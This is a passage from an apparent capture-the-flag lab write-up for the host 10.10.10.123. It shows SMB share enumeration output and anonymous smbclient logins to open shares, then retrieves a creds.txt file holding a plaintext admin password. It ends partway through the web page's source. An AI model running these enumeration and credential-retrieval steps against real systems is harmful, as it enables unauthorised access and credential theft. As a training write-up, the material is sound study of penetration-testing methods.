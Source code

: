       [+] Attempting to map shares on 10.10.10.123
      //10.10.10.123/print$           Mapping: DENIED, Listing: N/A
      //10.10.10.123/Files            Mapping: DENIED, Listing: N/A
      //10.10.10.123/general          Mapping: OK, Listing: OK
      //10.10.10.123/Development      Mapping: OK, Listing: OK
      //10.10.10.123/IPC$             [E] Can't understand response:
      NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

      ...
      ```
      Notes:
      - Workgroup name is __WORKGROUP__
      - __/etc/Files__ was listed as comment for __Files__ share
      - __general__ and __Development__ shares does not require authentication
      
   1. Explore available __shares__
      1. //10.10.10.123/general
         ```console
         smbclient \\\\WORKGROUP\\general -I 10.10.10.123 -N
         ```
         - While inside the client:
           ```console
           dir
           # creds.txt      N     57  Wed Oct 10 07:52:42 2018
           get creds.txt
           ```
         - __creds.txt__ contents:
           ```
           creds for the admin THING:

           admin:WORKWORKHhallelujah@#
           ```
      1. //10.10.10.123/Development
         ```console
         smbclient \\\\WORKGROUP\\Development -I 10.10.10.123 -N
         ```
         - While inside the client:
           ```console
           dir
           ```
      Notes:
      - __general__ share contains __admin credentials__
      - __Development__ share is __empty__

2. Visit http://10.10.10.123
   - Page Source:
     ```html
     <title>Friend Zone Escape software</title>

     <center><h2>Have you ever been friendzoned ?</h2></center>

     <center><img src="fz.jpg"></center>
